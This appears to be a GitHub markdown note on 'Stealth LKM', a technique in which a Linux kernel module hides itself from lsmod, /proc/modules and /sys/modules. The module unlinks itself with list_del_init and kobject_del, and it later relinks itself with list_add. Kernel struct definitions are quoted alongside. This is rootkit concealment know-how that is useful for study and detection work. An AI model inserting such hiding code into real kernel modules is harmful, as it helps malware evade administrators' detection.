 ## Stealth LKM
---

Loaded modules can be listed by `lsmod` and found through `/proc/modules` and `/sys/modules`.

### Hiding from `lsmod`
--- 
When module is loaded, it's associated with a struct module. All kernel modules are stored in a global liked list. Each loaded module is added to this linked list. The modules are populated in `/proc/modules` from this list, and the `lsmod` command reads `/proc/modules` to give it's output. 

To hide module from `lsmod` just need to remove module from that list:

```c
list_del_init(&__this_module.list);
```

This function is defined on `linux/list.h`:

```c
/**
 * list_del_init - deletes entry from list and reinitialize it.
 * @entry: the element to delete from the list.
 */
static inline void list_del_init (struct list_head *entry)
{
	__list_del_entry(entry);
	INIT_LIST_HEAD(entry);
}
```

### Hiding on `/sys/modules`
---
Just adding the line:
```c
kobject_del(&THIS_MODULE->mkobj.kobj);
```
The `THIS_MODULE` macro and the `struct module` are defined as:
```c
extern struct module __this_module;
#define THIS_MODULE (&__this_module)
```
The function is defined on `linux/kobject.h`:
```c
extern void kobject_del(struct kobject *kobj);
```
A `kobject` struct represents a kernel object, and is defined on `linux/kobject.h`:

```c
struct kobject {
	const char *name;
	struct list_head entry;
	struct kobject *parent;
	struct kset *kset;
	struct kobj_type *ktype;
	struct kernfs_node *sd;                 /* sysfs directory entry */
	struct kref	kref;
#ifdef CONFIG_DEBUG_KOBJECT_RELEASE
	struct delayed_work	release;
#endif
	unsigned int state_initialized:1;
	unsigned int state_in_sysfs:1;
	unsigned int state_add_uevent_sent:1;
	unsigned int state_remove_uevent_sent:1;
	unsigned int uevent_suppress:1;
};
```

### Show to `lsmod`
---
Just have to add back the module to the linked list. Need to define a `list_head` struct that will store the pointer to the head of the list (that's the previous element for the position of the module in the list).
```c
struct list_head  * module;
```
This struct is defined on `linux/types.h` as
```c
struct list_head {
	struct list_head *next, *prev;
};
```
Then, when going to remove the module from the list, first save that pointer that's stored in the `THIS_MODULE` object on the `list.prev` fields
```c
module = THIS_MODULE->list.prev;
```
Afterthat the module can be added to the list and become visible to `lsmod` and `/proc/modules`
```c 
list_add(&__this_module.list, module);
```
The `list_add` is defined on `linux/list.h`
```c 
/**
 * list_add - add a new entry
 * @new: new entry to be added
 * @head: list head to add it after
 *
 * Insert a new entry after the specified head.
 * This is good for implementing stacks.
 */
static inline void list_add(struct list_head *new, struct list_head *head)
{
	__list_add(new, head, head->next);
}
```
### Show to `/sysfs/modules`
---
TBD

## References
---
- [Kernel Kobject Device Model](https://medium.com/powerof2/the-kernel-kobject-device-model-explained-89d02350fa03)
- [Linux Kernel: Sysfs and Kobjects](https://www.win.tue.nl/~aeb/linux/lk/lk-13.html)
